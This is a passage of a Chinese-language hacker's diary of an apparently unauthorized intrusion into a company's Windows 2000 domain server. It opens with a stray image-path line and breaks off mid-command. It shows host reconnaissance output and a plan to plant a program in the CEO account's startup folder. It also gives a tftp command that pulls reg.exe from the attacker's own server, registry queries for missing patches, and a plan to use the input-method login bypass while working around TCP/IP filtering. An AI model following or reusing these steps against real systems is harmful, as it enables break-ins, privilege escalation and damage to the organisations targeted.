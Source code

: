 〈3〉再看看都有哪些用户：
Guest IUSR_SERVER_1 IUSR_SERVER-2
IWAM_SERVER_1 IWAM_SERVER-2 ceo[他们CEO的帐号J]
TsInternetUser
管理员有ceo 和target\Domain Admins，看来这台机器是他们域中的一台服务器。开始本来想给ceo下一个套，在他的启动目录里放一个程序，但后来看到这个帐号已经几个月没登陆了，就放弃了。
〈4〉看看启动了那些服务，这几个比较有意思, 看来都是默认的：
Task Scheduler
Simple Mail Transport Protocol （SMTP）
Task Scheduler
〈5〉看看网络状况，这几个比较有意思：
TCP 0.0.0.0:21 0.0.0.0:0 LISTENING
TCP 0.0.0.0:119 0.0.0.0:0 LISTENING
TCP 192.168.1.3:3389 0.0.0.0:0 LISTENING
看来有TermService，不过在网卡上做了TCP/IP过滤，只对内网开放，那么我们就来
〈6〉看看网卡设置信息：
Ethernet adapter 本地连接:
Connection-specific DNS Suffix . :
Description . . . . . . . . . . . : Realtek RTL8139（A） PCI Fast Ethernet Adapter
Physical Address. . . . . . . . . : 00-E0-4C-68-C4-B2
DHCP Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 192.168.1.3
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . :
DNS Servers . . . . . . . . . . . :
Ethernet adapter 本地连接 2:
Connection-specific DNS Suffix . :
Description . . . . . . . . . . . : Realtek RTL8139（A） PCI Fast Ethernet Adapter#2
Physical Address. . . . . . . . . : 00-E0-4C-68-B8-FC
DHCP Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . :xxx
Subnet Mask . . . . . . . . . . . :
Default Gateway . . . . . . . . . :
经过上面的一些步骤，对这台服务器的设置情况就有了一个大概的了解。如何取得admin权限？netdde?pipeupadmin?呵呵，无法利用，没 有可利用的可以登陆的用户。下套？等到什么时候，呵呵。
Okok!让我们来看看这个系统都打了些什么补丁。怎么查看？呵呵，打了补丁后，信息都会存贮在注册表中，查询注册表中的这个键值就行
了："HKLM\Software\Microsoft\Windows NT\CurrentVersion\hotfix"，这样的话，我们得上传一个reg.exe[M$ Resource Kit中的命令行注册 表编辑器]到服务器里面，我们才能操作他的注册表。开始我想用先写一个ftp脚本，然后ftp -s:cmd.txt让他到我的服务器来下载，但结果失 败了，后来才想起他做了TCP/IP过滤，5555，我记性真不好。怎么办呢？有办法，用tftp来传输。我先在我的服务器上安装了一个Cisco TFTP
Server，然后在目标机器上运行tftp -I [http://www.eyas.org/](http://www.eyas.org/) GET reg.exe，呵呵，传输过去咯。然后运行
REG QUERY "HKLM\Software\Microsoft\Windows NT\CurrentVersion\hotfix"
返回数据如下：
Listing of [Software\Microsoft\Windows NT\CurrentVersion\hotfix]
[Q147222]==〉这个不知道是什么东西，好象默认2k机器上都有
[Q269862]==〉Q269862_W2K_SP2_x86_CN.EXE==〉Microsoft IIS Unicode解码目录遍历漏洞!
[Q277873]==〉Q277873_W2K_sp2_x86_CN.EXE==〉Microsoft IIS CGI文件名检查漏洞!
呵呵，==〉和后面的说明是我加上去的，不是注册表中的。看来管理员不太勤快啊，只打了两个补丁。
哈哈！到了这一步，大家想到怎么取得admin权限了吗？呵呵，你一定也想到了，他的机器开了TermService服务，但windows2000登陆验证 可被绕过的漏洞没有安装补丁，此补丁为Q270676_W2K_SP2_x86_CN.EXE。由此看来，管理员只是删除了帮助法文件，而没有打补丁。用dir
c:\winnt\help\win*验证一下，果然没有熟悉的输入法帮助文件。敌人没有输入法，我们帮他造，hoho~~别忘了我们可以往任何地方写文件哦。
嘻嘻，咱们也别高兴的太早了，别忘了他的机器做了TCP/IP过滤哦，我们是没有办法连接到他的3389端口的。不要着急，不要着急，让我 们先来看看他的TCP/IP过滤的设置情况。怎么看呢？老办法，查看注册表里面的键值啦。用刚才的reg.exe查询
〈1〉reg QUERY "HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces"
Listing of [System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces]
[{4B41CFFB-4A20-42F8-9087-A89FE71FD8F4}]
[{612A3142-DB85-4D4E-8028-81A9EB4D6A51}]
〈2〉reg QUERY "HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\
{4B41CFFB-4A20-42F8-9087-A89FE71FD8F4}"
Listing of [System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\
{4B41CFFB-4A20-42F8-9087-A89FE71FD8F4}]
MULTI_SZ IPAddress
MULTI_SZ TCPAllowedPorts 25;53;80;110;3306;
MULTI_SZ UDPAllowedPorts 0;
MULTI_SZ RawIPAllowedProtocols 0;
〈3〉reg QUERY "HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\